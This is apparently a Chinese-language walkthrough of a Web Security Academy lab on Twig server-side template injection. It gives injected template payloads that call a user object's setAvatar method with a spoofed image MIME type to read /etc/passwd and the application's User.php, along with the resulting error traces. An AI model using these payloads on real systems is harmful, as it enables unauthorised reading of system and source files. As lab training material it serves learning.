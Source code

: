 看起來是 PHP 的 Twig

如果在上傳大頭貼的地方傳垃圾 (例如文字檔)，會噴錯

```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/x-php in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/s.php', 'application/x-p...')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

可以看出使用者有一個 `setAvatar` 的函數

合理懷疑這邊的 User 物件就是預設 `blog-post-author-display` 參數中 `user.name` 的 `user`


所以先試著送參數

```
blog-post-author-display=user.name}}{{user.setAvatar('/etc/passwd','text/plain')}}
```

發現噴錯

```
Internal Server Error

PHP Fatal error: Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28 Stack trace: #0 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Extension/Core.php(1601): User->setAvatar('/etc/passwd', 'text/plain') #1 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(378) : eval()'d code(24): twig_get_attribute(Object(Twig_Environment), Object(Twig_Source), Object(User), 'setAvatar', Array, 'method') #2 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php(394): __TwigTemplate_ca342760361a050b37bd958bf359a490e3a6f8c9e58e5d9e15aafcc36b16963c->doDisplay(Array, Array) #3 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php(371): Twig_Template->displayWithErrorHandling(Array, Array) #4 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php(379): Twig_Template->display(Array) #5 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(289): Twig_Template->render(Array) #6 Command line code(10): Twig_ in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php on line 409 
```


所以我們要把 content-type 設定成圖片，再次訪問留言區讓他執行

```
blog-post-author-display=user.name}}{{user.setAvatar('/etc/passwd','image/jpg')}}
```

接下來再來看使用者的照片
https://ac6f1f271e530629c0ca147c00ad0026.web-security-academy.net/avatar?avatar=wiener

就會發現成功讀到了 `/etc/passwd`

那這樣就代表我們可以任意讀檔，來讀一下程式的原始碼 `/home/carlos/User.php`

```
blog-post-author-display=user.name}}{{user.setAvatar('/home/carlos/User.php','image/jpeg')}}&csrf=E6m0Ds6W8YnITVvSyn5ySx98cNN49m0I
```

